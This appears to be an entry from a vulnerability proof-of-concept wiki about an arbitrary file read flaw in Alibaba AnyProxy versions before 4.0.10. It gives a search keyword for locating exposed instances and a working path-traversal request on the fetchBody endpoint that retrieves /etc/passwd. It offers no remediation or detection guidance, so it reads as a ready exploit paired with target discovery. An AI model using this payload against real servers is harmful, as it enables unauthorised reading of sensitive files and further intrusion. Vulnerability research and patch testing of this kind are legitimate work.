 # Alibaba AnyProxy fetchBody Arbitrary file reading vulnerability

## Vulnerability Description

Alibaba AnyProxy has arbitrary file reading. Through the vulnerability, attackers can obtain server sensitive information.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Alibaba AnyProxy < 4.0.10</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"anyproxy"</span>

## Vulnerability reappears

The page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210718204835288.png)



Verify that the POC is

```plain
/fetchBody?id=1/../../../../../../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210718204843037.png)